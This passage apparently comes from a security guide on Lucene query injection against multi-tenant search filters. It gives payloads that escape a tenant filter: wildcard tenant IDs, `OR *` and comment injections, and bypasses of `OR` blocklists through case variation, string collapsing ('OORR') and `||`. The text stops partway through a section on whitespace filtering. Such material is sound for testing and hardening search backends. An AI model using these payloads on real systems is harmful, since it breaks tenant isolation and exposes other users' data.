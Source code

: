 ```
attributes.tenantId:"1337" AND attributes.property:"" OR * OR NOT "" AND *
```

Some dialects allow comments, in those cases the injection payload can be both broader and simplified:
Property: `" OR *//`
```
attributes.tenantId:"1337" AND attributes.property:"" OR *//" AND *
```

### Wildcard (in a property): match all
If tenant ID can be set from outside, the wildcard character `*` can be used to match all, like this:

- Tenant ID: `*`
- Query: `` (empty)

```
attributes.tenantId:"*" AND *
```

### `OR` is forbidden (case insensitive)
While the default grammar defines the *or* operator as `"OR"` and it is case sensitive, some dialects are case insensitive, so `or`, `oR` or `Or` can be used as well:

Query: `* oR `

```
attributes.tenantId:"*" AND * oR *
```

### `OR` is forbidden (removed)
If `OR` is removed, we still have options to include it in the query. We can easily construct a payload which after `OR` is removed and collapses, a new `OR` emerges:

Query: `* OORR `

```
attributes.tenantId:"*" AND * OR *
```

### `OR` is forbidden (really?)
If all variations of the word `OR` is filtered, there is still a plan B. The grammar defines the *or* operator as the following:
```
<OR:            ("OR" | "||") >
```

So we can simply use `||` instead of `OR` to achieve the same effect:

Query: `* || `

```
attributes.tenantId:"*" AND * || *
```

### Whitespace is forbidden (really, but almost)
Space is a very important in the Lucene grammar, because it separates expressions.
